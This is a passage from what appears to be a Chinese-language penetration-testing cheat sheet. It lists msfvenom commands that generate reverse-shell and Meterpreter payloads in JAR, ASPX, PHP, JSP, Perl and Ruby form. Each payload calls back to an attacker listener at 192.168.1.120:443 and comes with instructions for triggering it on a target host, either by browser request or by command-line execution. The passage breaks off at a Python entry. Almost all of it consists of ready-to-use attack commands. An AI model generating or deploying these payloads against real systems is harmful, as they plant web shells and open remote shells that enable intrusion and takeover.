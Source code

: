 ```
msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=443 -f jar > /tmp/java.jar

命令行执行：
java -jar "C:\ProgramData\java.jar"
```

#### 9. Script reverse_tcp aspx

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=443 -f aspx > /tmp/aspxweb.aspx

浏览器访问：
http://192.168.1.108/aspxweb.aspx
```

#### 10. Script reverse_tcp php

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=443 -f raw > /tmp/phpweb.php

浏览器访问：
http://192.168.1.108/phpweb.php
```

#### 11. Script reverse_tcp jsp

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.120 LPORT=443 -f raw > /tmp/jspweb.jsp或者warweb.war

浏览器访问：
http://192.168.1.108:8080/jspweb.jsp
```

#### 12. Script reverse_tcp perl

```
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.1.120 LPORT=443 -f raw > /tmp/perl.pl

命令行执行：
[/var/www/html/]$ perl /tmp/perl.pl
```

#### 13. Script reverse_tcp ruby

```
msfvenom -p cmd/unix/reverse_ruby LHOST=192.168.1.120 LPORT=443 -f raw > /tmp/ruby.rb

命令行执行：
[/var/www/html/]$ ruby /tmp/ruby.rb
```

#### 14. Script reverse_tcp python
